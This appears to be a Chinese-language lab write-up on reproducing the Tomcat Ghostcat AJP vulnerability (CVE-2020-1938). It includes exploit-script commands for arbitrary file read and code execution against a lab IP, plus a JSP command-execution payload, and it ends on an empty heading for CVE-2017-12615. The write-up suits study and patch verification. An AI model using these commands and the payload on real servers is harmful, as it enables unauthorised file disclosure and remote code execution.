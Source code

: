 **前提条件：**  
  
对于处在漏洞影响版本范围内的 Tomcat 而言，若其开启 AJP  Connector 且攻击者能够访问 AJP Connector 服务端口的情况下，即存在被 Ghostcat 漏洞利用的风险。注意  Tomcat AJP Connector 默认配置下即为开启状态，且监听在 0.0.0.0:8009  
  
**漏洞原理**  
  
Tomcat 配置了两个Connecto，它们分别是 HTTP 和 AJP ：HTTP默认端口为8080，处理http请求，而AJP默认端口8009，用于处理 AJP  协议的请求，而AJP比http更加优化，多用于反向、集群等，漏洞由于Tomcat  AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件以及可以包含任意文件，如果有某上传点，上传图片马等等，即可以获取shell  
  
**漏洞危害：**  
  
攻击者可以读取 Tomcat所有  webapp目录下的任意文件。此外如果网站应用提供文件上传的功能，攻击者可以先向服务端上传一个内容含有恶意 JSP  脚本代码的文件（上传的文件本身可以是任意类型的文件，比如图片、纯文本文件等），然后利用 Ghostcat  漏洞进行文件包含，从而达到代码执行的危害  
  
**漏洞复现**  
  
1、下载链接：https://github.com/backlion/CVE-2020-1938/blob/master/apache-tomcat-8.5.32.zip  
  
2、安装JDK，并配置环境  
  
3、启动tomcat，点击tomcat目录/bin 文件夹下的startup.bat  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4R7KQxkaZhDVG550a3vnK6ru5YJGaMQlFTibJ7Lkhv4rlnrjVuhUATlEw/640?wx_fmt=png&from=appmsg "")  
  
**任意文件读取**  
  
可以读取webapps目录下的任何文件  
```
 python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.1.9 -p 8009 -f WEB-INF/web.xml

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4RZHYNaF91xDR2NiblaDPjCVYg2uxgwTKmobKNUpVjocB7cW80IIIfbhQ/640?wx_fmt=png&from=appmsg "")  
  
任意文件包含  
  
1、首先得上传一个要包含的文件内容，并将文件上传到webapps目录  
  
test.txt  
```
<%out.println(new java.io.BufferedReader(new java.io.InputStreamReader(Runtime.getRuntime().exec("whoami").getInputStream())).readLine());%>

```  
  
2、访问该文件内容test.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4RibRia6HZGwbpib5pJTv09KiarVkNb1uI5NI8fQgMadMUrQdJy3dcVQVUvQ/640?wx_fmt=png&from=appmsg "")  
  
3、输入命令，执行命令  
```
python3 cve-2020-10487-v1.py 192.168.1.9 -p 8009 -f exec.txt --rce 1

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4RzVCwfU00ekrJFRUu7oVdCxuwdxDomibHwBQZ7zaAObP7enlntNfMGOQ/640?wx_fmt=png&from=appmsg "")  
## 文件上传漏洞(CVE-2017-12615)   
  